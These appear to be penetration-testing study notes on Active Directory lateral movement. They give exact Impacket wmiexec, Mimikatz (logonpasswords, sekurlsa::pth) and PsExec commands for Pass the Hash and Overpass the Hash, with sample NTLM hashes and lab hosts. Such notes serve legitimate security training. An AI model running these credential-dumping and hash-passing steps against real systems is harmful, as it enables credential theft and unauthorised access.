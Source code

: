 ## Pass the Hash
authenticate to a remote system or service using a user’s NTLM hash

> Works for Active Directory domain accounts and the built-in local administrator account, but not for any other local admin account (2024 security update)

> This will not work for Kerberos authentication but only for servers or services using NTLM authentication

Tools:
- PsExec from Metasploit
- Passing-the-hash toolkit
- Impacket

Mechanics:
- the attacker connects to the victim using the Server Message Block (SMB) protocol and performs authentication using the NTLM hash

Background:
- PtH can be used to start a Windows service (e.g. cmd) and communicate with it using Named Pipes
- This is done using Service Control Manager API

> Prerequisites:
> - an SMB connection through the firewall (commonly port 445)
> - Windows File and Printer Sharing feature is enabled
> - The admin share ADMIN$ is available (which normally requires Local Admin rights on the target machine)

Using wmiexec from Impacket on Kali:
`/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73`
- `-hashes`: pass the local admin hash we obtained
- `Administrator@192.168.50.73`: specify the username and target IP

## Overpass the Hash
abuse an NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT). Then use the TGT to obtain a Ticket Granting Service (TGS)

### Tool: Mimikatz, PsExec

1. Spawn Admin shell
2. Run Mimikatz
3. Dump cached NTLM password hash of target user:
   `privilege::debug`
   `sekurlsa::logonpasswords`
4. Launch Powershell in the context of that user using the obtained NTLM hash:
   `sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell`
   (note that if you run `whoami` in the new Powershell instance you won't get this user's username it is normal)
5. List cached Kerberos tickets:
   `klist` (there should be none)
6. Generate a TGT of the target user:
   `net use \\files04`
7. Check cached Kerberos tickets:
   `klist`
   (experience: there is still none, but it worked anyway 🤷)
   (if the ticket's server is krbtgt, it is TGT)
8. Since we have generated Kerberos tickets and operate in the context of the target user in the PowerShell session, we may reuse the TGT to obtain code execution on the target host:
   `.\PsExec.exe \\files04 cmd`
